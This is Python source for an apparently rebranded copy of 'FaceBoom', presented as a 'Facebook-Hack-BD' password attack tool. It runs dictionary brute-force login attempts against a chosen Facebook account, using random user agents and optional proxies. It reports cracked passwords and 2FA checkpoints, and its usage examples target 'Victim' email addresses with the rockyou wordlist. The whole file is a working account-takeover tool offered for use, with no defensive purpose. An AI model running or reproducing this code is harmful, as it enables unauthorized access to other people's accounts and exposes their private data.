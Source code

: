 # Fatima-
#!/usr/bin/python  import socket, sys, os, re, random, optparse, time if sys.version_info.major &lt;= 2:import httplib else:import http.client as httplib  ## COLORS ############### wi="\033[1;37m" #>>White# rd="\033[1;31m" #>Red   # gr="\033[1;32m" #>Green # yl="\033[1;33m" #>Yellow# ######################### os.system("cls||clear") def write(text):     sys.stdout.write(text)     sys.stdout.flush()  versionPath = "core"+os.sep+"version.txt"  errMsg = lambda msg: write(rd+"\n["+yl+"!"+rd+"] Error: "+yl+msg+rd+ " !!!\n"+wi)  try:import requests except ImportError:     errMsg("[ requests ] module is missing")     print("  [*] Please Use: 'pip install requests' to install it :)")     sys.exit(1)  try:import mechanize except ImportError:     errMsg("[ mechanize ] module is missing")     print("  [*] Please Use: 'pip install mechanize' to install it :)")     sys.exit(1)  class FaceBoom(object):       def __init__(self):         self.useProxy = None         self.br = mechanize.Browser()         self.br.set_handle_robots(False)         self.br._factory.is_html = True         self.br.addheaders=[('User-agent',random.choice([                'Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/534.24 (KHTML, like Gecko) RockMelt/0.9.58.494 Chrome/11.0.696.71 Safari/534.24',                'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36',                'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_6_8) AppleWebKit/535.2 (KHTML, like Gecko) Chrome/15.0.874.54 Safari/535.2',                'Opera/9.80 (J2ME/MIDP; Opera Mini/9.80 (S60; SymbOS; Opera Mobi/23.348; U; en) Presto/2.5.25 Version/10.54',                'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/535.11 (KHTML, like Gecko) Chrome/17.0.963.12 Safari/535.11',                'Mozilla/5.0 (Windows NT 5.1) AppleWebKit/535.6 (KHTML, like Gecko) Chrome/16.0.897.0 Safari/535.6',                'Mozilla/5.0 (X11; Linux x86_64; rv:17.0) Gecko/20121202 Firefox/17.0 Iceweasel/17.0.1']))]       @staticmethod     def check_proxy(proxy):           proxies = {'https':"https://"+proxy, 'http':"http://"+proxy}           proxy_ip = proxy.split(":")[0]           try:             r = requests.get('https://www.wikipedia.org',proxies=proxies, timeout=5)             if proxy_ip==r.headers['X-Client-IP']: return True             return False           except Exception : return False       @staticmethod     def cnet():         try:             socket.create_connection((socket.gethostbyname("www.google.com"), 80), 2)             return True         except socket.error:pass         return False       def get_profile_id(self, target_profile):         try:             print(gr+"\n["+wi+"*"+gr+"] geting target Profile Id... please wait"+wi)             idre = re.compile('"entity_id":"([0-9]+)"')             con = requests.get(target_profile).text             idis = idre.findall(con)             print(wi+"\n["+gr+"+"+wi+"]"+gr+" Target Profile"+wi+" ID: "+yl+idis[0]+wi)         except IndexError:             errMsg("Please Check Your Victim's Profile URL")             sys.exit(1)       def login(self,target, password):          try:             self.br.open("https://facebook.com")             self.br.select_form(nr=0)             self.br.form['email']=target             self.br.form['pass']= password             self.br.method ="POST"             if self.br.submit().get_data().__contains__(b'home_icon'):return  1             elif "checkpoint" in self.br.geturl(): return 2             return 0         except(KeyboardInterrupt, EOFError):             print(rd+"\n["+yl+"!"+rd+"]"+yl+" Aborting"+rd+"..."+wi)             time.sleep(1.5)             sys.exit(1)         except Exception as e:             print(rd+" Error: "+yl+str(e)+wi+"\n")             time.sleep(0.60)       def banner(self,target,wordlist,single_passwd):          proxystatus = gr+self.useProxy+wi+"["+gr+"ON"+wi+"]" if self.useProxy  else yl+"["+rd+"OFF"+yl+"]"         print(gr+""" ================================== [---]   """+wi+"""*CYBER_ROCKY*"""+gr+"""        [---] ================================== [---]  """+wi+"""Facebook-Hack-BD  """+gr+""" [---] ================================== [---]       """+yl+"""CONFIG"""+gr+"""         [---] ================================== [>] Target      :> """+wi+target+gr+""" {}""".format("[>] Wordlist    :> "+yl+str(wordlist) if not single_passwd else "[>] Password    :> "+yl+str(single_passwd))+gr+""" [>] ProxyStatus :> """+str(proxystatus)+wi)         if not single_passwd:             print(gr+"""\ =================================="""+wi+""" [~] """+yl+"""Facebook-"""+rd+"""Password-Attack: """+gr+"""Enabled """+wi+"""[~]"""+gr+""" ==================================\n"""+wi)         else:print("\n")       @staticmethod     def updateFaceBoom():         if not os.path.isfile(versionPath):              errMsg("Unable to check for updates: please re-clone the script to fix this problem")              sys.exit(1)         write("[~] Checking for updates...\n")         conn = httplib.HTTPSConnection("raw.githubusercontent.com")         conn.request("GET", "/Oseid/FaceBoom/master/core/version.txt")         repoVersion = conn.getresponse().read().strip().decode()         with open(versionPath) as vf:             currentVersion = vf.read().strip()         if repoVersion == currentVersion:write("  [*] The script is up to date!\n")         else:                 print("  [+] An update has been found ::: Updating... ")                 conn.request("GET", "/Oseid/FaceBoom/master/faceboom.py")                 newCode = conn.getresponse().read().strip().decode()                 with open("faceboom.py", "w") as  faceBoomScript:                    faceBoomScript.write(newCode)                 with open(versionPath, "w") as ver:                      ver.write(repoVersion)                 write("  [+] Successfully updated :)\n")  parse = optparse.OptionParser(wi+""" Usage: python fb-hack-bd.py [OPTIONS...] ------------- OPTIONS:        |Facebook-accountðŸ’€HackingðŸ’€Tools.    ____      _                    ____            _  / ___|   _| |__   ___ _ __     |  _ \ ___   ___| | ___   _ | |  | | | | '_ \ / _ \ '__|____| |_) / _ \ / __| |/ / | | | | |__| |_| | |_) |  __/ | |_____|  _ &lt; (_) | (__|   &lt;| |_| |  \____\__, |_.__/ \___|_|       |_| \_\___/ \___|_|\_\\__, |       |___/                                           |___/ ............................................................        This is ***Cyber-Rocky*** Password Attack Tools.                  .....Made in Bangladesh.....       |--------     | -t &lt;target email> [OR] &lt;FACEBOOK ID>    ::> Specify target Email [OR] Target Profile ID     |--------     | -w &lt;wordlist Path>                      ::> Specify Wordlist File Path     |--------     | -s &lt;single password>                    ::> Specify Single Password To Check     |--------     | -p &lt;Proxy IP:PORT>                      ::> Specify HTTP/S Proxy (Optional)     |--------     | -g &lt;TARGET Facebook Profile URL>        ::> Specify Target Facebook Profile URL For Get HIS ID     |--------     | -u/--update                             ::> Update FaceBoom Script ------------- Examples:         |      |--------      |1/ python fb-hack-bd.py -t Victim@gmail.com -w /usr/share/wordlists/rockyou.txt      |--------      |*2/ python fb-hack-bd.py -t 100001013078780 -w /data/data/com.termux/files/home/password.txt      |--------      |3/ python fb-hack-bd.py -t Victim@hotmail.com -w \wordlist.txt -p 144.217.101.245:3129      |--------      |4/ python fb-hack-bd.py -t Victim@gmail.com -s 1234567      |--------      |5/ python fb-hack-bd.py -g https://www.facebook.com/Victim_Profile      |-------- """)   def Main():    parse.add_option("-t","--target",'-T','--TARGET',dest="target",type="string",       help="Specify Target Email or ID")    parse.add_option("-w","--wordlist",'-W','--WORDLIST',dest="wordlist",type="string",       help="Specify Wordlist File ")    parse.add_option("-s","--single","--S","--SINGLE",dest="single",type="string",       help="Specify Single Password To Check it")    parse.add_option("-p","-P","--proxy","--PROXY",dest="proxy",type="string",                         help="Specify HTTP/S Proxy to be used")    parse.add_option("-g","-G","--getid","--GETID",dest="url",type="string",                         help="Specify TARGET FACEBOOK PROFILE URL to get his ID")    parse.add_option("-u","-U","--update","--UPDATE", dest="update", action="store_true", default=False)    (options,args) = parse.parse_args()    faceboom = FaceBoom()    target = options.target    wordlist = options.wordlist    single_passwd = options.single    proxy = options.proxy    target_profile = options.url    update = options.update    opts = [target,wordlist,single_passwd, proxy, target_profile, update]    if any(opt for opt in opts):      if not faceboom.cnet():        errMsg("Please Check Your Internet Connection")        sys.exit(1)    if update:     faceboom.updateFaceBoom()     sys.exit(1)    elif target_profile:         faceboom.get_profile_id(target_profile)         sys.exit(1)    elif wordlist or single_passwd:         if wordlist:             if not os.path.isfile(wordlist):                 errMsg("Please check Your Wordlist Path")                 sys.exit(1)         if single_passwd:             if len(single_passwd.strip()) &lt; 6:                 errMsg("Invalid Password")                 print("[!] Password must be at least '6' characters long")                 sys.exit(1)         if proxy:              if proxy.count(".") != 3:                     errMsg("Invalid IPv4 ["+rd+str(proxy)+yl+"]")                     sys.exit(1)              print(wi+"["+yl+"~"+wi+"] Connecting To "+wi+"Proxy[\033[1;33m {} \033[1;37m]...".format(proxy if not ":" in proxy else proxy.split(":")[0]))              final_proxy = proxy+":8080" if not ":" in proxy else proxy              if faceboom.check_proxy(final_proxy):                 faceboom.useProxy = final_proxy                 faceboom.br.set_proxies({'https':faceboom.useProxy, 'http':faceboom.useProxy})                 print(wi+"["+gr+"Connected"+wi+"]")              else:                 errMsg("Connection Failed")                 errMsg("Unable to connect to Proxy["+rd+str(proxy)+yl+"]")                 sys.exit(1)          faceboom.banner(target,wordlist,single_passwd)         loop = 1 if not single_passwd else "~"         if single_passwd:             passwords = [single_passwd]         else:             with open(wordlist, 'r', errors='replace') as f:                 passwords = f.readlines()         for passwd in passwords:                 passwd = passwd.strip()                 if len(passwd) &lt;6:continue                 write(wi+"["+yl+str(loop)+wi+"] Trying Password[ {"+yl+str(passwd)+wi+"} ]")                 retCode = faceboom.login(target, passwd)                 if retCode:                     sys.stdout.write(wi+" ==> Login"+gr+" Success\n")                     print(wi+"========================="+"="*len(passwd)+"======")                     print(wi+"["+gr+"+"+wi+"] Password [ "+gr+passwd+wi+" ]"+gr+" Is Correct :)")                     print(wi+"========================="+"="*len(passwd)+"======")                     if retCode == 2:print(wi+"["+yl+"!"+wi+"]"+yl+" Warning: This account use ("+rd+"2F Authentication"+yl+"):"+rd+" It's Locked"+yl+" !!!")                     break                 else:                     sys.stdout.write(yl+" ==> Login"+rd+" Failed\n")                     loop = loop + 1 if not single_passwd else "~"         else:                 if single_passwd:                     print(yl+"\n["+rd+"!"+yl+"] Sorry: "+wi+"The Password[ "+yl+passwd+wi+" ] Is Not Correct"+rd+":("+yl+"!"+wi)                     print(gr+"["+yl+"!"+gr+"]"+yl+" Please Try Another password or Wordlist "+gr+":)"+wi)                 else:                     print(yl+"\n["+rd+"!"+yl+"] Sorry: "+wi+"I Can't Find The Correct Password In [ "+yl+wordlist+wi+" ] "+rd+":("+yl+"!"+wi)                     print(gr+"["+yl+"!"+gr+"]"+yl+" Please Try Another Wordlist. "+gr+":)"+wi)         sys.exit(1)    else:        print(parse.usage)        sys.exit(1)   if __name__=='__main__':     Main()   ############################################################## #####################                ######################### #####################   END OF TOOL  ######################### #####################                ######################### ############################################################## #This Tool by Oseid Aldary #Have a nice day :) #GoodBye
